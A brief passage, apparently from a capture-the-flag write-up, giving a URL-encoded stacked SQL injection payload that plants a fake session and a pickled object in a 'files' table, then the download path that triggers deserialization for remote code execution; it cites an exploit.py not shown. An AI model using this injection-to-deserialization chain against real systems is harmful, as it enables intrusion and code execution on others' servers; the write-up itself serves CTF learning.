 The 2 SQLI payloads + deserialized object to RCE:
\;%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A(\TESTCTF\,%0A\TESTCTF\,%0A\TESTCTF\);%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A(\\{filename}\,%0A\\{pickled}\,%0A\TESTCTF\\);--

Then navigate to the path /download/{filename}/{sessionid} using the injected sessionid and filename, This will trigger the deserialization of the object.

script available on exploit.py
